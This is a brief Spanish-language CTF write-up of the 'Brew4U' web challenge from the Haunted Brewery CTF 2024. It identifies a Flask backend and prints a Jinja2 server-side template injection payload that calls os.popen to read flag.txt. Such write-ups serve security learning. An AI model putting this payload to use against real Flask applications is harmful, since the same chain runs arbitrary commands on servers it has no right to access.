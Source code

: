 ```yaml
---
layout: post
title: Brew4U Haunted Brewery CTF
comments: true
categories: [Web, Writeups, HauntedBreweryCTF]
---
```


Este es el segundo writeup que subo del [Haunted Brewery CTF 2024](https://ctftime.org/ctf/1191/), donde logramos un puesto 20, dejando buenas sensaciones con el progreso del equipo.

![Image]({{ site.baseurl }}/images/posts/haunted-brewery-2024.png)

# Reconocimientpo

En este reto se nos presenta una página donde podemos insertar texto:

![Image]({{ site.baseurl }}/images/posts/2024-11-04-Brew4U-Haunted-Brewery-CTF-2.png)

Si investigamos con *WhatWeb*, veremos que el servidor web es *flask*, por lo que tendría sentido probar un *SSTI* (Server-Side Template Injection):

![Image]({{ site.baseurl }}/images/posts/2024-11-04-Brew4U-Haunted-Brewery-CTF-1.png)

Si enviamos dicha cadena, efectivamente recibimos un error:

![Image]({{ site.baseurl }}/images/posts/2024-11-04-Brew4U-Haunted-Brewery-CTF-3.png)

De forma, que con un input como el siguiente, se nos dará la flag:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

Eso sería todo, si te ha gustado, échale un ojo a mi otro [writeup de web]({% post_url 2024-11-04-Anti-Spirit-FCaptcha-Haunted-Brewery-CTF %}).